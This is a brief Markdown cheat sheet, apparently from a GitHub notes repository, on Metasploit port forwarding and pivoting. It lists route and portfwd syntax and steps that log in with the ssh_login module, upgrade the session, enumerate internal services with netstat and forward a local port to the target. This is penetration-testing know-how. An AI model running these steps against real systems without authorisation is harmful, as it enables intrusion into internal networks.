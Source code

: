 # Metasploit

# Usage:

#### route add/del IP SUBNET [COMM/SID] (proxy)

#### portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## Port Forwarding with Metasploit

### 1) With SSH login

 - use auxiliary/scanner/ssh/ssh_login

 - set rhosts RHOSTS

 - set username USERNAME

 - set password PASSWORD

 - exploit

 - sessions -u 1 

 - sessions 2

 - netstat -antp (Check for applications that run internally within the target)

 - portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1



